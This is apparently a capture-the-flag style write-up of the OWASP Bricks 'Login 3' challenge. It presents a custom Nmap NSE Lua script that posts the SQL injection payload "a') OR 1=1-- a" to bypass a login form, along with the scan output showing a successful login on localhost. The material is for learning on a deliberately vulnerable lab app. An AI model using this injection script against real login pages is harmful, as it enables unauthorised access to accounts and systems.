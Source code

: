 ```yaml
---
date: '2024-12-03T16:23:36+08:00'
title: 'Bricks Login 3'
tags:
    - OWASP-Bricks
    - NSE
---
```


## Challenge Information

- [OWASP Bricks](https://sechow.com/bricks/)
- Docker version: [here](https://hub.docker.com/r/gjuniioor/owasp-bricks)


> This is a series where I will write my own Nmap NSE script to solve that challenge. This is actually a task given by [masta ghimau](https://www.youtube.com/@mastaghimau) during [MCC 2023](https://cybercamp.my/mcc2023-the-journey-begins/).


## Challenge Solution

Login level 3 is just a slightly harder SQL injection as it add brackets. Here's an example: `SQL Query: SELECT * FROM users WHERE name=('1') and password=('1') LIMIT 0,1`. 

```lua
local http = require "http"
local shortport = require "shortport"

portrule = shortport.http

action = function(host,port)
  local resp,final,query
  r={}
  r['username']="a') OR 1=1-- a"
  r['passwd']="test"
  r['submit']="Submit"
  resp = http.post(host,port,"/login-3/index.php",nil,nil,r)


  final = string.match(resp.body, '<p>.*alert%-box.->(.-)<a.*</p>')
  query = string.match(resp.body, ".*SQL Query(.*)<a.*</div>")

  return {payload = r ,SQLQuery = query , result = final}
end
```

This code is built based on `http-title.nse`.

```bash 
nmap -p 80 --script=chall3.nse 127.0.0.1
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-28 20:40 +08
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00014s latency).

PORT   STATE SERVICE
80/tcp open  http
| chall1:
|   payload:
|     username: a') OR 1=1-- a
|     submit: Submit
|     passwd: test
|   SQLQuery: : SELECT * FROM users WHERE name=('a') OR 1=1-- a') and password=('test') LIMIT 0,1
|_  result: Succesfully logged in.

Nmap done: 1 IP address (1 host up) scanned in 0.15 seconds
```

## Things I learned from the challenge

- Writing custom NSE script
